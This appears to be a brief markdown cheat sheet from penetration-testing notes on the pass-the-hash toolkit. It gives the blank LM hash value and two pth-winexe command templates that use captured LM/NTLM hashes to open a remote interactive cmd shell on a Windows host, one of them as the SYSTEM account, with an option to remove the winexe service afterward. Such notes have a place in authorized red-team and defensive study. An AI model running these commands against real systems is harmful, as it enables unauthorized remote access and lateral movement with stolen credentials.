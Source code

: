 # pth

pass-the-hash toolkit

empty/blank LM password hash: `AAD3B435B51404EEAAD3B435B51404EE`

## interactive shell

* uninstall winexe service after remote execution

```
pth-winexe -U [domain/]<user>%'<LM hash>:<NTLM hash>' --uninstall //<host> cmd
```

## interactive shell via `system` account

```
pth-winexe -U [domain/]administrator%'<LM hash>:<NTLM hash>' --uninstall --system //<host> cmd
```
